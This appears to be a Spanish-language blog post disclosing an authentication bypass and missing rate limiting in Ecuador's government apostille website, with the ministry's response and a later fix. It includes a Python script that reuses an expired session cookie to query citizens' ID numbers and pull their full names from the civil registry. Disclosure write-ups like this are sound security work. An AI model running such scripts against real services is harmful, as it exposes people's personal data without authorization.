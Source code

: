 ```yaml
---
pubDatetime: 2025-03-08
title: Atacando el Sistema de Apostillas | Cancilleria.gob.ec
description: Explotando fallas en el sistema de apostillas del Ecuador.
featured: false
author: eserror
tags:
  - cancilleria
  - ecuador
  - vulnerabilidad
---
```


Por alguna razón, hace unos meses recibí un correo de parte del Ministerio de Relaciones Exteriores y Movilidad Humana del Ecuador. Este correo anunciaba la disponibilidad de un [nuevo servicio](https://www.cancilleria.gob.ec/2024/07/15/sistema-de-apostillas-y-legalizaciones-electronicas-del-ecuador/) público, el cual permitía apostillar documentos electrónicos de forma oficial.

El día de hoy, he decido escribir un artículo donde exploto unas vulnerabilidades que he encontrado mientras navegaba por el sitio.

## Authentication Bypass

La aplicación falla al comprobar la validez de una cookie/sesión previamente expirada, esto permite a un atacante reusar la sesión y realizar acciones en nombre del usuario.

Es decir, si un atacante consigue robar una sesión de usuario, él podrá realizar acciones en la cuenta o sesión de usuario como si tuviera las credenciales o autorización para realizar dichas acciones.

En la imagen de abajo, se puede ver cómo la aplicación reacciona al recibir una solicitud sin una cookie en de autenticación en las cabeceras HTTP.

![](@assets/images/16.32.12.png)

En la siguiente imágen, se muestra la respuesta de la aplicación ante una solicitud HTTP que incluye una cookie ya expirada.

![](@assets/images/16.41.29.png)

En la imágen de arriba, se puede ver cómo claramente la aplicación falla al mostrar información sensible de otro usuario, mientras se hace uso de una sesion invalida. A pesar de existir una redirección, que idealmente debe llevar al usuario a volver a iniciar sesión, la aplicación entrega información de cualquier usuario para el cual se conozca su cédula, sin validar el tiempo de vida de la sesion.

## Lack of Rate Limiting

La aplicación no pone un límite a la cantidad de solicitudes que un usuario puede realizar, lo cuál permite a un atacante realizar ataques de fuerza bruta para conseguir información privada de un usuario. La explotación de estás vulnerabilidades implica que un atacante puede realizar la suplantación de identidades de usuario e incluso causar interrupciones en el servicio.

El siguiente código pretende explotar dos vulnerabilidades, una falla en el mecanismo de autenticación, y la falta de implementación de un mecanismos que eviten solicitudes reiteradas.

```python
#!/bin/python3

import requests
import urllib3
import re
import json

urllib3.disable_warnings()
s = requests.Session();


def brute_force():

## Es necesario obtener una cookie expirada o valida.

headers = {

"Cookie": "ASP.NET_SessionId=mldtgtkittjfy31eoz1ekp4s; .ASPXAUTH=2F1537AFB2BCEC54CD9429AF1F963DBEE3282C7EA685EBA4A6E9E62D485A8A98C4AA3D35D4261681186D8E96386A74613753B4FB2A1B20D04B2BD18550AF732AA2D460C7BEF5B9661CF9B5AEB386F802B5E4698B6FD42011F855E4F6018DD7E133FA4A1255FAF637B711D544DFF0698DFC6C5CC2408D21CEB023F453085EF9BF63BA1065C99A8FF992B23C1FE0CA3B5AF28ED6050A425CE12A532E123A13E9AC3D4CC5BD1EF63EAE6ED38E7B77E0E32A5A70E3A71FDE5D75C4A7D4E70E8132CD",
"User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36",
"X-Requested-With": "XMLHttpRequest",
"Accept-Encoding": "gzip, deflate, br"
}

# Reemplazar por las cedulas que desees consultar

cedulas = ('CEDULA0','CEDULA1', 'CEDULA2','CEDULA3', 'CEDULA4')

for cedula in cedulas:

data = {"numeroDocumento": cedula}
respuesta = s.get('https://eapostillas.cancilleria.gob.ec/Solicitud/ConsultarDatosRegistroCivil?numeroDocumento', data=data, headers=headers, verify=False, allow_redirects=False)

texto_html = respuesta.text
patron = r'(?s)\s*(\{.*\})'
match = re.search(patron, texto_html)
json_data = match.group(1)
data = json.loads(json_data)

print(data['resultado']['NombresCompletos'])


if __name__ == "__main__":

brute_force()
```

## Respuesta de la Cancilleria

Después de varias semanas de espera, por fin obtuve una respuesta, sin embargo esta fue muy decepcionante.

Debo aclarar que, para entender el problema que expongo, no es necesario conocimientos avanzados en sistemas informáticos. Así que, tengo que admitir que no esperaba una respuesta como esta, mucho menos cuando solemos asumir que dos cabezas piensan mejor que una.

El siguiente informe pretende dar una respuesta sobre las vulnerabilidades reportadas, sin embargo, ustedes pueden juzgar por si mismos.

<iframe src="https://drive.google.com/file/d/1lrfjMORi2kzgDZKoa2Bj39AtHxN9UnUO/preview" width="750" height="650" frameborder="0"></iframe>

## "The Fix"

Después de haber leido la respuesta a mi reporte de vulnerabilidades, haber invertido tiempo y esfuerzo en este asunto, naturalmente uno puede llegar a la conclusion que ha sido un esfuerzo en vano.

Pero no es así, ya que el día de hoy revisando nuevamente el serivicio de apostillas, he descubierto un pequeño cambio. Se ha agregado el parámetro token1, el cual asumo fue implementado para evitar reiteradas consultas al servicio.

Al mismo tiempo, se puede observar que la aplicación valida efectivamente si la sesión de un usuario ha expirado, y de acuerdo a esto, decide si mostrar la información solicitada o no.

![](@assets/images/01.09.48.png")

A pesar de que el proceso de remediación no fue tan fluido como esperaba, y muchos inconvenientes en el camino, aún así vale la pena aportar un granito de arena a la seguridad del país. 🫶
